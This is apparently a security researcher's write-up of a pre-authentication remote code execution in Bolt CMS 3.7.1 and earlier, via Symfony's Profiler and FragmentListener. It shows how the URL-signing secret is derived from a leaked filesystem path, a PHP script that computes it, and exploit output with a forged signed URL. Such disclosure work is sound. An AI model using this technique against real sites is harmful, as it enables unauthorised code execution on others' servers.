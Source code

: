 ```yaml
---
permalink: /c1110
---
```

{% raw %}
# C1110: Bolt CMS <= 3.7.1, Profiler = RCE (pre-auth)

Today [@cfreal_](https://twitter.com/cfreal_) published an article outlining the dangerousness introduced by the use of Edge Side Includes ([ESI](https://symfony.com/doc/current/http_cache/esi.html)) within the Symfony framework. Indeed, it is possible for an attacker with knowledge of the secret used to sign URLs to obtain a code execution and this in a non-authenticated way on all applications using the Symfony `FragmentListener`.

I'm not going to spend a lot of time defining what an ESI is because it is very well done in @cfreal_'s article, I will only present how it is possible and this in an automated way to get a code execution on all Bolt CMS offering the Profiler tool to non authenticated users.

## Obtaining the secret

Bolt CMS is based on the Silex and Symfony frameworks even if Silex is itself based on Symfony as explained on their website.
> The PHP micro-framework based on the Symfony Components

![alt text](../captures/c14_0.png "Figure 1: Documentation")

According to the Silex [documentation](https://silex.symfony.com/doc/2.0/providers/http_fragment.html), the secret used to sign URLs is stored in the `uri_signer.secret` parameter. Let's go into the code and find out how it is generated.

```
▶ grep -R uri_signer ./vendor 
./vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php:            $renderer = new HIncludeFragmentRenderer(null, $app['uri_signer'], $app['fragment.renderer.hinclude.global_template'], $app['charset']);
./vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php:            return new FragmentListener($app['uri_signer'], $app['fragment.path']);
./vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php:        $app['uri_signer'] = $app->share(function ($app) {
./vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php:            return new UriSigner($app['uri_signer.secret']);
./vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php:        $app['uri_signer.secret'] = md5(__DIR__);
./vendor/silex/silex/doc/providers/http_fragment.rst:* **uri_signer.secret**: The secret to use for the URI signer service (used
```

As it can be seen from the above output, the secret is generated as follows:

File: <span style="color:red">\<ROOT\>/vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php</span>
```php

...

$app['uri_signer.secret'] = md5(__DIR__);

...

```

Due to the way the secret is generated, it is possible to obtain the secret if you know the path of the folder on the file system. Several solutions are then offered to us:

- Brute-force the directory location (worst case scenario).
- Find a Full Path Disclosure vulnerability (might be possible).
- Use the features provided by the Profiler (solution that will be used for our POC).

In case the Profiler is enabled for non-authenticated users:<br>
When processing a request, if an exception is thrown, then the request's stacktrace and additional information are returned in the server response as it is possible to see below.

![alt text](../captures/c14_1.png "Figure 2: Stacktrace")

![alt text](../captures/c14_2.png "Figure 3: Additional information")

We now have the prefix of the path `/var/www/html/projects/project_2/public/`, but as we already had the suffix `<ROOT>/vendor/silex/silex/src/Silex/Provider`, we are able to obtain the complete path and therefore able to calculate the secret.

File: <span style="color:red">gen.php</span>
```php
<?php
    $path = "/var/www/html/projects/project_2/vendor/silex/silex/src/Silex/Provider";
    $secret = md5($path);
    echo $secret;
?>
```

```
▶ php gen.php
0894117c78a7947194909dd8ae8de30a
```

## Exploit

Based on cfreal_'s work, we are able to produce a generic exploit that automates the exploitation of the Symfony FragmentListner as well as an exploit dedicated to bolt CMS when it offers the Profiler to non-authenticated users.

```
▶ python rce.py http://172.18.0.3/projects/project_2/public/_fragment
[*] http://172.18.0.3/projects/project_2/public/_fragment detected
[*] Bolt detected with Profiler: extracting secret
[*] secret: 0894117c78a7947194909dd8ae8de30a
[ ] Using _controller with PHP's functions ...
[*] Exploit succeed:
	http://172.18.0.3/projects/project_2/public/_fragment?_path=_controller%3Dphpinfo%26what%3D-1&_hash=8BVsUQyC8D47ZCc%2BPXeCWiFnxD3eJH2zfUw87aeuec0%3D
```

![alt text](../captures/c14_3.png "Figure 4: Exploit result")


Credit goes to [@cfreal_](https://twitter.com/cfreal_).

- [POC dedicated to Bolt CMS](https://github.com/therealcoiffeur/therealcoiffeur.github.io/tree/master/tools/Bolt/FragmentListener)
- [Generic POC for Symfony](https://github.com/therealcoiffeur/therealcoiffeur.github.io/tree/master/tools/Symfony/FragmentListener)

{% endraw %}